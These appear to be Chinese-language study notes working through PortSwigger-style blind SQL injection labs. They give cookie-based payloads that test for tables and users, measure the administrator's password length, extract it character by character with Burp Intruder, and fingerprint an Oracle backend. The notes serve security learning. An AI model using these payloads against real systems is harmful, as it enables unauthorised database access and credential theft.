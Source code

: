 all_tab_columns为存表名和列名的表

## Blind SQL injection with conditional responses

cookie注入：请求的cookie 若数据库中已存在，则返回welcome back，不存在则不返回welcome back

```
Cookie: TrackingId=zE4fYn2IqMbic6HN' and 1=1--; session=nLV9bknvkhGTOrDyqI1nksB6uG2p8JWy
```

```
' and (select 'a' from users)='a'--
```

存在表user

```
' and (select 'a' from users where username='administrator')='a'--
```

user中存在用户administrator

```
' and (select 'a' from users where username='administrator' and length(password)>1)='a'--
```

从1开始，判断password位数，为20

```
' and (select substring(password,1,1) from users where username='administrator')='a'--
```

用intruder爆破，由于有两个参数要变，使用Cluster bomb

密码为zb7woiar9rmdzfcimmk3

## Blind SQL injection with conditional errors

报错注入：cookie可注入，且cookie有错的时候会报错

```
Cookie: TrackingId=zPiORxXsaSfDbOIc'
```

报错，且500，说明是后端错误

```
Cookie: TrackingId=zPiORxXsaSfDbOIc''
```

不报错，说明这里的可以影响输出

```
' union select ''--+
```

加入一个正确的sql语句，显示报错，可能是oracle数据库

```
' union select '' from dual--+
或' and (select 'a' from dual)='a'--+
```

输出正常页面，说明是个oracle数据库，且此处与数据库交互

```
' and (select 'a' from users where rownum=1)='a'--+
```

表示user表存在

疑问：为什么此处查dual表不用rownum，查user必须用？而且加了查询子句where之后，也不用rownum了

```
' and (select 'a' from users where username='administrator')='a'--
```

